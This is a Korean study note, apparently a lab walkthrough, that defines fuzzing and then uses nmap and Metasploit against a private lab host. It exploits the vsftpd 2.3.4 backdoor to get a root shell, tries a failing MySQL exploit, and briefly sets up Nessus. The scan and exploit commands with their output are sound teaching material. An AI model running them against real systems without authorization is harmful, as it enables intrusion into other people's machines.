

# Fuzzing
1. 예상치 않는 또는 무작위 데이터를 입력하는 것
2. 유효한

일단 아무거나 넣어보고 되면 좋은 것임.
웹사이트 개발자가 `설마 이런 행동을 하겠어?` 한 것을 넣어 본다는 것이다.

## 하는 이유
취약점을 찾기 위해서

<br><br><br>

# Metasploit
Ruby로 만들어 진 보안(공격) 프레임워크

https://www.exploit-db.com/ 사이트에 올라온 취약점을 묶어 놓은 것이 메타스플로이트이다.

## msfconsole
아래 명령어로 프롬포트를 실행할 수 있다.
``` bash
msfconsole
```
많이 사용하는 명령어로는 `search`, `show`, `info`, `use` 가 있다.

공격을 하기위해선 대상 시스템의 기본 정보(취약한 정보)를 파악해야한다.

``` bash
msf6 >
nmap -sT -O 192.168.60.129
```
``` shell
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
23/tcp   open  telnet
25/tcp   open  smtp
53/tcp   open  domain
80/tcp   open  http
111/tcp  open  rpcbind
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
512/tcp  open  exec
513/tcp  open  login
514/tcp  open  shell
1099/tcp open  rmiregistry
1524/tcp open  ingreslock
2049/tcp open  nfs
2121/tcp open  ccproxy-ftp
3306/tcp open  mysql
5432/tcp open  postgresql
5900/tcp open  vnc
6000/tcp open  X11
6667/tcp open  irc
8009/tcp open  ajp13
8180/tcp open  unknown
MAC Address: 00:0C:29:0D:F5:10 (VMware)
Device type: general purpose
Running: Linux 2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.6
OS details: Linux 2.6.9 - 2.6.33
Network Distance: 1 hop
```

<br><br>

## 공격 대상 파악
제대로 공격 대상을 파악하기 위해 `nmap` 을 더 advanced 하게 사용해보자.

아래는 포트스캔 방법이다.
```
msf6 >
nmap -sT -O 192.168.60.129
```

아래는 시스템 서비스의 모든 정보를 가져오는 것이다.
```
msf6 >
nmap -sT -A 192.168.60.129
```
```
...
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
...
```
이 시스템은 `vsftpd 2.3.4` 를 사용하는 것이 파악된다.
이를 아래 사이트에 검색해서 발견된 취약점이 있는지 찾아보자.

https://www.exploit-db.com/



일일이 웹에 검색할 필요 없이 명령어로 확인하는 것도 가능하다.
```
msf6 >
search vsftpd 2.3.4
```
또는 일반 bash 프롬포트에서
``` bash
searchSploit vsftpd 2.3.4
```
<br><br>

## 모듈 사용
```
msf6 >
use exploit/unix/ftp/vsftpd_234_backdoor
```
그러면 프롬포트가 아래와 같이 바뀐 것을 확인 할 수 있다.
```
msf6 exploit(unix/ftp/vsftpd_234_backdoor) >
```

모듈 사용은 그만하고 싶을 때는 `back` 을 입력하면 된다.

`info` 명령어를 입력하면 사용하려는 모듈 정보가 나온다.
```
       Name: VSFTPD v2.3.4 Backdoor Command Execution
     Module: exploit/unix/ftp/vsftpd_234_backdoor
   Platform: Unix
       Arch: cmd
 Privileged: Yes
    License: Metasploit Framework License (BSD)
       Rank: Excellent
  Disclosed: 2011-07-03
```

이제 사용해볼텐데 명령어에 필요한 옵션들을 보자.
```
msf6 >
show options
```
```
Module options (exploit/unix/ftp/vsftpd_234_backdoor):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), range CIDR ident
                                      ifier, or hosts file with syntax 'fi
                                      le:<path>'
   RPORT   21               yes       The target port (TCP)

```
`RHOSTS` 부분에 `Current Setting` 이 되어있지 않은 것을 볼 수 있다.
공격할 호스트를 지정해주자.
```
msf6 >
set RHOSTS 192.168.60.129
```
```
RHOSTS => 192.168.60.129
```

이제 실행을 하자.
```
msf6 >
run
```
```
[*] 192.168.60.129:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 192.168.60.129:21 - USER: 331 Please specify the password.
[+] 192.168.60.129:21 - Backdoor service has been spawned, handling...
[+] 192.168.60.129:21 - UID: uid=0(root) gid=0(root)
[*] Found shell.
[*] Command shell session 1 opened (0.0.0.0:0 -> 192.168.60.129:6200) at 2021-04-15 11:42:25 +0900
```
Command shell session 1개가 열렸다고 되어있다.
백도어 진입이 성공했다는 것이다.

root 권한으로 리눅스 명령어 실행이 가능하다.

## Mysql 공격
```
use exploit/linux/mysql/mysql_yassl
show options
set RHOST 192.168.60.129
run
```
```
[-] 192.168.60.129:3306 - Exploit aborted due to failure: no-target: Unable to detect target automatically
```
실패했다...

<br><br><br>

# nessus
```
dpkg -i Nessus-*.deb
```
https://127.0.0.1:8834 들어가서
verification code 받고 등록하고 플러그인 깔아서 nessus 동작 시작
